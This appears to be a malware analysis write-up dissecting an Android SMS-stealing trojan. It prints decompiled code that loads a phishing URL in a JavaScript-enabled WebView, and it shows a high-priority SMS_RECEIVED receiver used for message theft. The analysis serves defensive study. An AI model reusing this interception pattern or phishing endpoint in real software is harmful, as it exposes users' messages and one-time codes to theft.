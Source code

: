 ### `MainActivity2` Class

After the activity gets loaded from `MainActivity` we can see a new `webview` is created which loads the malware URLs below. 

```java
public class MainActivity2 extends AppCompatActivity {
    /* JADX INFO: Access modifiers changed from: protected */
    @Override // androidx.appcompat.app.AppCompatActivity, androidx.fragment.app.FragmentActivity, androidx.activity.ComponentActivity, androidx.core.app.ComponentActivity, android.app.Activity
    public void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        setContentView(realrat.siqe.holo.R.layout.web);
        WebView webView = (WebView) findViewById(realrat.siqe.holo.R.id.webview);
        webView.getSettings().setJavaScriptEnabled(true);
        webView.setWebViewClient(new mWebViewClient());
        webView.getSettings().setDomStorageEnabled(true);
        webView.getSettings().setLoadWithOverviewMode(true);
        webView.getSettings().setUseWideViewPort(true);
        webView.loadUrl("https://eblaqie.org/pishgiri");
    }
[TRUNCATED]
```

We can see the malware uses multiple APIs including one `setLoadWithOverviewMode` which auto-adjusts and fit to the Android devices screen size. 

[https://developer.android.com/reference/android/webkit/WebSettings#setLoadWithOverviewMode(boolean)](https://developer.android.com/reference/android/webkit/WebSettings#setLoadWithOverviewMode(boolean))

### `MyReceiver` Class

If we jump back to the `AndroidManifest.xml` file we can see a receiver with an intent filter set to a high priority. This is indicative of malware behavior especially in the case with features that authors try to mask, such as sending and receiving SMS. 

[https://developer.android.com/guide/topics/manifest/intent-filter-element#priority](https://developer.android.com/guide/topics/manifest/intent-filter-element#priority)

```xml
[TRUNCATED]
        <receiver android:name="ir.siqe.holo.MyReceiver" android:enabled="true" android:exported="true">
            <intent-filter android:priority="1000">
                <action android:name="android.provider.Telephony.SMS_RECEIVED"/>
            </intent-filter>
        </receiver>
[TRUNCATED]
```

Opening up the `MyReceiver` receiver we can see that the class is doing the bulk of the work for sms theft. The class is importing the core package functionality such as the utility class Bundle and SharedPreferences to pull and store data.
